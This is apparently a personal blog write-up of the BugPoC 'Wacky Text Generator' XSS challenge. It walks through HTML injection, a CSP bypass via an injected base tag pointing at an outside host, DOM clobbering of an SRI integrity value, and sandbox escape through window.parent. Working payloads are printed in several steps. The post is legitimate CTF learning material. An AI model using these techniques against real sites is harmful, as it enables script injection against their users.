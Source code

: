 ```yaml
---
layout: post
title: "BugPoc XSS Challenge"
tags: [Xss]
comments: true
---
```


> I am not the one who solves this challenge quickly. After I got up, I saw that someone had submitted it 9 hours ago. But I learned something and some new thinking from this challenge, so I recorded it.Try to get the reward of the best blog.

### Challenge Details
[![](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)
Wacky Text Generator (https://wacky.buggywebsite.com)<br>
Rules: Must alert(origin), must bypass CSP, must work in Chrome, must provide a BugPoC demo

### Solving
#### Step 1 : Found html injection
I first opened the challenge page and checked the source code<br>
[![图片一](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")
Found a page https://wacky.buggywebsite.com/frame.html?param=Hello,%20World!<br>
Manual test parameter<br>
After finding the closed `<title>` tag. Can inject html code
[![](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)
In fact, when I first viewed this page, I first checked the source code of the page, read the js, and then discovered this html injection

#### Step 2 :Bypass CSP
Although we have found html injection, it cannot perform xss
[![](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)
Because
[![](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)
```
content-security-policy: script-src 'nonce-kplddkwaepak' 'strict-dynamic'; frame-src 'self'; object-src 'none';
```
You can use [this](https://csp-evaluator.withgoogle.com/ "this") to check csp security
[![](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain<br>
Just use the previously found html injection to inject `<base href="">`<br>
Since this is a ctf challenge, this may be a breakthrough. (If bugbounty, this may not have any effect).I did find relative (script) injection in the js at the bottom
[![](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)
But this has to be judged by `if (window.name =='iframe')`<br>
This site `x-frame-options: SAMEORIGIN` cannot use iframe<br>
But  we can set window.name through window.open()<br>
Such as
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=xss","iframe");
</script>
```
##### First try
```
if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
```
After reading this js, I initially thought it would create an iframe and write a `<script src="files/analytics/js/frame-analytics.js">` in it
[![](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)
I only need to inject the `<base>` tag, control the base-URL to my own domain , and upload a file `/files/analytics/js/frame-analytics.js`, load my own js.<br>
Use [bugpoc mock](https://bugpoc.com/testers/other/mock "bugpoc mock") to construct POC
[![](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)
Then use  [Flexible Redirector](https://bugpoc.com/testers/other/redir "Flexible Redirector") for 302 redirection
[![](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)
get https://le8497ljneda.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js content `alert(origin);`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no
[![](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)
##### Second
Read this [Subresource Integrity](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity "Subresource Integrity")<br>
This helps me understand what is happening<br>
After that I fell into a dead end,I have been thinking about how to bypass SRI,It took a while.(It seems that need to find a browser vulnerability to solve the problem, so the idea at the time was wrong)<br>
After changing mind, only try to modify the value of `integrity`
```
	<script nonce="lxggbsrloata">
	
		window.fileIntegrity = window.fileIntegrity || {
			'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
			'algorithm' : 'sha256',
			'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
			'creationtime' : 1602687229
		}
	
		// verify we are in an iframe
		if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
		
	</script>
```
To modify the value of `integrity` first,  must modify `fileIntegrity.value`.<br>

`window.fileIntegrity = window.fileIntegrity || {...}`<br>
Seeing this, I thought that as long as I created a `window.fileIntegrity` using the previously discovered html injection,  could change the `fileIntegrity.value`<br>
Due to the particularity of js language.For example,  `name` of `iframe`, `id` of `input`. In the unoccupied case, it will change from assignment to dom selector, so it can be used to hijack regular parameters (value href name id src ref..). Detail [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering "DOM clobbering")<br>
`<input id='fileIntegrity'  value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='>`   modify `fileIntegrity.value`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='aErQrfRCGgdInIpMEDCWj2%2bHQUab648smjdgPAUdBKU='><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no again
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)
`<iframe sandbox="allow-scripts allow-same-origin" class="invisible"></iframe>`<br>
But the security of using `allow-scripts` `allow-same-origin` at the same time is very low<br>
Because can manipulate the parent window.Just use the alert() of the parent window<br>
Modify the content of `/files/analytics/js/frame-analytics.js` to `window.parent.alert(origin);`<br>

###### Final Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='><base href='https://960ejm5yq2xy.redir.bugpoc.ninja/'>","iframe");
</script>
```
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)

### Conclusion
Sorry for my poor English<br>
In order for everyone to understand, the article is written in detail<br>
Although this challenge is simple, it does show that sometimes changing the way of thinking can make the problem very easy<br>
If you have any questions, welcome dm me([jinonehk](https://twitter.com/jinonehk "jinonehk"))
